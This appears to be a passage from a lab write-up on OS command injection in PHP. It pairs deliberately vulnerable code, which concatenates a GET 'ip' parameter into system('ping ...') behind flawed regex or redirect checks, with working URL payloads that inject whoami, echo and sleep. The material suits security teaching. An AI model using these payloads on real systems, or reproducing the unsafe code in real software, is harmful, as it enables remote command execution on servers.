 #### 1.1. Example 1

Payloads:
```
$host/example1.php?ip=127.0.0.2%26%26echo;echo;whoami
$host/example1.php?ip=127.0.0.2;echo;echo;whoami
$host/example1.php?ip=127||whoami
$host/example1.php?ip=127;whoami
$host/example1.php?ip=127.0.0.2;sleep+5
```

Code:
```php
system("ping -c 2 ".$_GET['ip']);
```


#### 1.2. Example 2

Payload (hex encoded line feed LF `\n` + `/m` regex multi line):
```
$host/example2.php?ip=127.0.0.1%0aecho+1
```


Code:
```php
if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) { die("Invalid IP address"); }
system("ping -c 2 ".$_GET['ip']);
```


#### 1.3. Example 3

Payload:
```
$host/example3.php?ip=127%7C%7Cwhoami
```

Code:
```php
if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/', $_GET['ip']))) {
     header("Location: example3.php?ip=127.0.0.1");
    // redirect to other page
    // die() is missing
}
// but if we don't follow the redirect system function will be called
system("ping -c 2 ".$_GET['ip']);
```
